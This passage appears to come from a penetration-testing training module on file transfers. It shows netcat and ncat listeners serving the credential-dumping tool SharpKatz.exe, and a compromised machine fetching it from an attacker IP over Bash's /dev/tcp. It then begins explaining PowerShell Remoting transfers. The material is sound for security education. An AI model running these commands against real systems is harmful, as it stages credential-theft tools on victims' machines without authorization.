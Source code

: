 Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.

#### NetCat - Sending File as Input to Netcat

  NetCat - Sending File as Input to Netcat

```shell-session
gdxqpardo@htb[/htb]$ # Example using Original Netcat
gdxqpardo@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Ncat - Sending File as Input to Netcat

  Ncat - Sending File as Input to Netcat

```shell-session
gdxqpardo@htb[/htb]$ # Example using Ncat
gdxqpardo@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```


#### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

  Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

```shell-session
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```


## PowerShell File Transfer

We already talk about doing file transfers with PowerShell, but there may be scenarios where HTTP, HTTPS, or SMB are unavailable. If that's the case, we can use [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2), aka WinRM, to perform file transfer operations.

[PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) allows us to execute scripts or commands on a remote computer using PowerShell sessions. Administrators commonly use PowerShell Remoting to manage remote computers in a network, and we can also use it for file transfer operations. By default, enabling PowerShell remoting creates both an HTTP and an HTTPS listener. The listeners run on default ports TCP/5985 for HTTP and TCP/5986 for HTTPS.


To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration. Let's create an example and transfer a file from `DC01` to `DATABASE01` and vice versa.

We have a session as `Administrator` in `DC01`, the user has administrative rights on `DATABASE01`, and PowerShell Remoting is enabled. Let's use Test-NetConnection to confirm we can connect to WinRM.

#### From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.

